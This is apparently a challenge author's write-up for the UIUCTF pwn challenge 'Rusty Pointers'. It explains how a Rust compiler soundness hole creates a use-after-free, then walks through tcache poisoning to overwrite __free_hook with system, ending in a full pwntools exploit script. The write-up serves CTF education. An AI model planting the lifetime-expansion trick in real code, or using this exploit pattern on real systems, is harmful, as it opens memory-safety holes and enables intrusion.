

SIGPwny ran their annual CTF, UIUCTF. It was heavily themed around Mini Metro by Dinosaur Polo Games. I helped design the theme and portions of the website, along with one challenge. The CTF, to me was a great success, although I had bigger ambitions for the theme that we didn't have time to implement. I hope that next year will continue to be bigger and we continue to provide one of the best CTF experiences each year.

The challenge I made was Rusty Pointers. It's target difficulty was a medium-hard pwn challenge that had 36 solves at the end.

The public challenge repo includes a brief overview solve writeup, however I wanted to spend the time explaining the bug in detail, and as if I was a competitor.


## The Program

We get a pwnable with Rust source and respective libraries needed for linking for Ubuntu 20.04. Immediately, this means that we are on `glibc 2.31` and have access to tools such as `__free_hook`, and there aren't any protections such as safe-linking. The challenge is a standard-ish heapnote challenge. You can make rules and notes, edit, read, and delete them. There is also an option to make a law.



## Messing Around

Making notes seem pretty straight forward. When I read a newly made node, it's empty. When I try to delete a note, I can't read it afterwards, as there is bounds checking when trying to read/edit/delete notes. The notes are pushed back to a vector, so I don't have the freedom of setting and accessing arbitrary indices.

Rules, however are pretty weird. When we make a rule and read it, it gives a heap leak. If we make a rule, then make a note, the rule will echo what the notes say.

We can't edit or delete laws, but making one immediately reads it out, and the early ones give a pointer to `libc`. What on earth is going on? 

If we look at the source code, there is no use of `unsafe`, anywhere, yet we seem to be able to get, read, and write to free blocks on the heap. While we're on the topic, it's in Rust, why does it seem to be showing glibc-like heap structures?

```rust
// A stripped down portion of the code
const LEN: usize = 64;
type RulesT = Vec<&'static mut [u8; LEN]>;
type NotesT = Vec<Box<[u8; LEN]>>;

fn create_rule(rules: &mut RulesT){
	let buf = get_rule();
	rules.push(buf);
	println!("Rule Created!");
}

fn create_note(notes: &mut NotesT){
	let buf = get_note();
	notes.push(buf);
	println!("Note Created!");
}

fn get_rule() -> &'static mut [u8; LEN] {
	let mut buffer = Box::new([0; LEN]);
	return get_ptr(&mut buffer);
}

fn get_note() -> Box<[u8; LEN]>{
	return Box::new([0; LEN])
}
```

Above are the functions that make rules and notes. We get our answer to why we see glibc heap structure when rules leak memory: We are using `Box`. `Box` in Rust allows you to allocate data on the heap, and by default uses the system allocator, which on Linux is glibc malloc. You can of course specify your own allocator, written in Rust presumably, but this program did not.

Notes and Rules are managed in some vectors, but rules are weird as they seem to be static pointers (i.e. their memory lives forever), yet when we read them it's as if they are being deallocated instantly...

While `get_note` just returns a new heap pointer, `get_rule` calls `get_ptr`... We should take a deep dive at `get_ptr` to get to the bottom of what is going on with this program.


## `get_ptr` is Evil

Let's take a look at `get_ptr`:
```rust
const S: &&() = &&();
#[inline(never)]
fn get_ptr<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	fn ident<'a, 'b, T: ?Sized>(
        _val_a: &'a &'b (),
        val_b: &'b mut T,
	) -> &'a mut T {
			val_b
	}
	let f: fn(_, &'a mut T) -> &'b mut T = ident;
	f(S, x)
}
```

To simplify it out, we'll pull out and rename a few functions, similar to cve-rs:

```rust

const STATIC_UNIT: &'static &'static () = &'static &'static ();

fn lifetime_expansion<'a, 'b, T: ?Sized>( // Flipping a and b to make sense
        witness: &'b &'a (),
        target: &'a mut T,
	) -> &'b mut T {
			target
}

fn expand_reference<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	let local_fn: fn(_, &'a mut T) -> &'b mut T = lifetime_expansion;
	local_fn(STATIC_UNIT, x)
}
```

These 3 pieces of code are fundamental to how [cve-rs](https://github.com/Speykious/cve-rs) implements "memory safe" memory vulnerabilities. Once `expand_reference` exits, the pointer defined as `x` will be both returned and deallocated.

To understand what's going on, we first have to briefly overview the memory model of Rust.

In the effort to be memory safe, Rust brings two, compile-time enforced, concepts to the language: Lifetimes, and Ownership. Ownership is fairly simple, the function that makes the memory owns it, and when it goes out of scope, the memory gets cleaned up. The goal of this is to make sure that only one owner exists for a piece of memory, and that when this owner ceases to exist, so does the memory.

This often means that simple data types are passed around by copy, while more complicated ones (e.g. `String`) pass ownership. This means we change who the owner is, and the old owner loses scope of it, and the new owner is responsible for clearing it. But what if we want to temporarily allow a function to access some memory it wouldn't otherwise own? Rust allows you to then *borrow* memory (in the same way you would pass a reference or pointer), using the `&` feature.

Borrowing allows you to keep a piece of memory in scope at one level, give it to another function at another scope, without transferring ownership. For mutability, however, Rust only allows one `mut` borrow to be made at a time, to prevent "data races". You can, of course, dereference the borrow to modify the data with `*`, thus borrowing acts very similar to pointers.

With ownership in mind, we now have to talk about Lifetimes. Lifetimes are a property of some memory to ensure that a function never receives invalid memory. *Usually*, you don't think about lifetimes as a 'type' or 'property' when writing Rust code. The Rust compiler will infer all lifetimes automatically. A lifetime is basically what you think of it, how long the memory lasts. If I have some memory with a lifetime of `a`, and I let a function borrow it with a lifetime of `b`, I can assume that `a` outlives `b`, because otherwise, my function could operate on invalid memory. We can define the lifetime of a borrow with a single quote: `&'a value`. The lifetime used most often, explicitly, is `static`, saying that this memory should live for the duration of the program.

The compiler should enforce these properties to be *sound* (i.e. consistent and correct). Rust should never allow us to call a function with memory who's lifetime is shorter than the function, and should never allow us to pass invalid pointers to functions.

Let's now deep dive on each part of the `get_ptr` function.

### The Static Unit
These two lines of code are equivalent:

```rust
const STATIC_UNIT: &'static &'static () = &'static &'static ();
const S: &&() = &&();
```

I'm defining a double-borrow of the unit object `()`. In other words, think of it like a pointer to a pointer to an empty set. Since this is defined outside of any function, the compiler assumes the lifetime to be `static`, which is why the second line has the same effect as the first, where the lifetimes are explicitly defined. We'll use this unit later in `get_ptr`, but for now understand this:

The compiler, to validate lifetimes, assumes and checks that the outermost borrow has to be *as least* outlived by the inner most borrow. Since in this unit, they are the same lifetime of "forever", the Rust compiler is OK with this definition.

### Lifetime Expansion

The next function of interest is:

```rust
fn lifetime_expansion<'a, 'b, T: ?Sized>(
        witness: &'b &'a (),
        target: &'a mut T,
	) -> &'b mut T {
			target
}
```

Which is a generic function for any lifetime `a`, `b`, and type `T`. It takes in two parameters, a 'witness' and a target. The witness is this type of a lifetime `b` borrow lifetime `a` borrow of the empty unit, and the target is a borrow of lifetime `a` of type `T`. This then outputs our element `T` with a shorter lifetime `b`.

Now, recall that for the witness to exist, `a` must outlive `b`. We cannot make a witness where `b` outlives `a`, Rust would stop it in its tracks. Once we have this witness, it proves to the Rust compiler that the lifetimes of `a` and `b` are well defined, and `a` outlives `b`. As long as the lifetimes of our target matches the inner borrow lifetime of the witness, Rust sees no problem with converting our borrow to a shorter lifetime, `b`. This won't make the memory invalid, its just shortening its lifespan.

We can now return our object `T` with the new lifespan, as it was shown that such a lifespan must be shorter than `T`'s original lifespan. This is completely sound, albeit weird. There's no real reason, in normal Rust code, to muck with lifetimes like this generically. However, this function will lead us to the complete bug which lets us break the Rust compiler.

### Expand Reference

Our bad function is the following:

```rust
fn expand_reference<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	let local_fn: fn(_, &'a mut T) -> &'b mut T = lifetime_expansion;
	local_fn(STATIC_UNIT, x)
}
```

The kneejerk reaction is why not just call `lifetime_expansion` directly?

```rust
fn expand_reference<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	lifetime_expansion(STATIC_UNIT, x);
}
```

`STATIC_UNIT` outlives any lifetime `a` and `b`, and is a `()`. And our `x` is of some lifetime `a`, and we're going to convert up to lifetime `b`, which our witness proves to have the lifespan for. The compiler will throw an error here, as it knows that `a` might not outlive `b`.

Alright so we make the local function, but we fully type it this time:

```rust
fn expand_reference<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	let local_fn: fn(&'b &'a (), &'a mut T) -> &'b mut T = lifetime_expansion;
	local_fn(STATIC_UNIT, x)
}
```

Nope, the compiler will still error. Because of this call with `STATIC_UNIT`, it still knows that `a` might not outlive `b`. Otherwise, it would be fine. The bug happens because now the check is dependant on our definition of our typing.

So we employ one change. We know that all `&'static &'static ()` are valid `&'b &'a ()`, so we just sub that in for our type

```rust
fn expand_reference<'a, 'b, T: ?Sized>(x: &'a mut T) -> &'b mut T {
	let local_fn: fn(&'static &'static (), &'a mut T) -> &'b mut T = lifetime_expansion;
	local_fn(STATIC_UNIT, x)
}
```

By replacing these generic `a,b` lifetimes in our `local_fn` type definition, we now have exploited a soundness hole in the Rust compiler to let us make a function which takes an element of one lifetime, and expand it to any lifetime we want. Our original function used `_` to make the compiler infer this type to be the static double borrow, since we call it with the `STATIC_UNIT` anyway.

Now, our `get_rule` does the following:

```rust
#[inline(never)]
fn get_rule() -> &'static mut [u8; LEN] {
	let mut buffer = Box::new([0; LEN]);
	return get_ptr(&mut buffer);
}
```

It plans to return a static mutable borrow of a Box ptr. We return the result of `get_ptr`, which expands the lifetime of `buffer` to `'static`. But the issue is, Rust doesn't handle this correctly, so `buffer` goes out of scope, and deallocates the memory, but returns a valid `&'static` ref, which is assumed to be sound, since a function returning some memory with a greater lifetime than itself is OK.

Laws act the same, but just make a chunk large enough for the unsorted bin, so that the leaked pointer points to the main arena in libc.


[Issue #25860](https://github.com/rust-lang/rust/issues/25860) has been open for over 9 years, which first discovered this bug.

(This is also my first time coding Rust, lol)


## The Exploit

The exploit following ends up being quite simple. The Law acts as a sort of gift, a free libc leak. Make one, read it (automatically), move on.

When we allocate a Rule, it will try to take the first free block in its tcache, or if none are available, allocate a new block. When it gets pushed into the list, it is already freed in the tcache. Since the tcache is LIFO, a new rule will always point to the same free chunk, unless you make new hard allocations with Notes instead.

We can perform a simple tcache poisoning to exploit the program. By making 2 notes, deleteing them, our tcache looks like the following:

```
[0x50, 2] (Block 1) -> (Block 2) -> End
```

When we now allocate a note, we get the reference to the first block, without affecting the rest of the tcache (again, LIFO).

```
[0x50, 2] (Rule 0) -> (Block 2) -> End
```

We write to this note the address of `__free_hook`, as we are on Ubuntu 20.04, with `glibc 2.31`:

```
[0x50, 2] (Rule 0) -> (__free_hook) -> End 
// Block 2 gets leaked.
```

Now, we allocate 2 notes to get a note pointed at `__free_hook`, and write the address of `system`. We write `/bin/sh` to the first note. Rust will eventually have a copy of this buffer freed, and invoke system on `/bin/sh`. You can view the full solve below, where I define the helper functions to navigate the menu and set up pwntools, but the solve is effectively:

```py
# Get free leaks:
leak = make_law()
offset = 0x1ecbe0
LIBC.address = (leak - offset)
print("libc base: ", hex(LIBC.address))
make_note()
make_note()
del_note(0)
del_note(0)
make_rule()

free_hook = LIBC.symbols['__free_hook']
print(f"hook: {hex(free_hook)}")

ed_rule(0, p64(free_hook))
make_note()
make_note()

system = LIBC.symbols['system']

ed_note(0, '/bin/sh')
ed_note(1, p64(system))

p.interactive() #dropped into shell.
```

## Ending Notes
There's a fair bit you can do with a strong read, edit, delete heap note with a UaF. So while I don't think there were any 'unintended' solutions, there were a few that had some interesting routes.

Notably, one solve used the fact that rules and notes were pushed into an uncapped vector, to cause the vector to `realloc` on a controlled rule. This gave them arbitrary read/write and allowed them to basically anywhere in memory. 

I really wanted to do this challenge on Ubuntu 22.04, as you would have to keep in mind safe linking, and notably use `__exit_funcs` to pop a shell. However, this required an arbitrary read. Since any piece of memory in Rust has to be initialized before use (the compiler won't let you, otherwise), any buffer you make will wipe out the memory that is there. The `_dl_fini` pointer in `__exit_funcs` is mangled with a random key, so you would need to leak it before exploiting. The vector control method, however worked on 22.04, and made the challenge possible (Would've been a funny revenge chal, no source change just now on 22.04).

Thanks for playing and I hope it was interesting!


## Full Solve

```py
#!/usr/bin/python3
from pwn import *

context.terminal = ['tmux', 'splitw', '-f', '-h']
p = remote('rusty-pointers.chal.uiuc.tf', 1337, ssl=True)
LIBC = ELF('./challenge/dist/libc-2.31.so')


# shortened helpers to recv/send quick prompts
def mt():
    p.recvuntil(b'> ')
def snd(x):
    p.sendline(str(x).encode())

# Helpers to navigate heapnote menu
def make_rule():
    mt()
    snd(1)
    mt()
    snd(1)
def make_note():
    mt()
    snd(1)
    mt()
    snd(2)
def make_law():
    mt()
    snd(5)
    rsp = int(p.recvline().decode().split(', ')[0], 16)
    return rsp

def del_rule(i):
    mt()
    snd(2)
    mt()
    snd(1)
    mt()
    snd(i)
def del_note(i):
    mt()
    snd(2)
    mt()
    snd(2)
    mt()
    snd(i)

def rd_rule(i):
    mt()
    snd(3)
    mt()
    snd(1)
    mt()
    snd(i)
    p.recvline() # "Contents of Buffer"
    p.recvline() # "Buffer"
    ints = p.recvline().decode().split(', ')
    return (int(ints[0], 16), int(ints[1],16))
def rd_note(i):
    mt()
    snd(3)
    mt()
    snd(2)
    mt()
    snd(i)
    p.recvline() # "Contents of Buffer"
    p.recvline() # "Buffer"
    return p.recvline()

def ed_rule(i, dat):
    mt()
    snd(4)
    mt()
    snd(1)
    mt()
    snd(i)
    mt()
    p.sendline(dat)

def ed_note(i, dat):
    mt()
    snd(4)
    mt()
    snd(2)
    mt()
    snd(i)
    mt()
    p.sendline(dat)

# Get free leaks:
leak = make_law()
offset = 0x1ecbe0
LIBC.address = (leak - offset)
print("libc base: ", hex(LIBC.address))
make_note()
make_note()
del_note(0)
del_note(0)
make_rule()

free_hook = LIBC.symbols['__free_hook']
print(f"hook: {hex(free_hook)}")

ed_rule(0, p64(free_hook))
make_note()
make_note()

system = LIBC.symbols['system']

ed_note(0, '/bin/sh')
ed_note(1, p64(system))

p.interactive()
```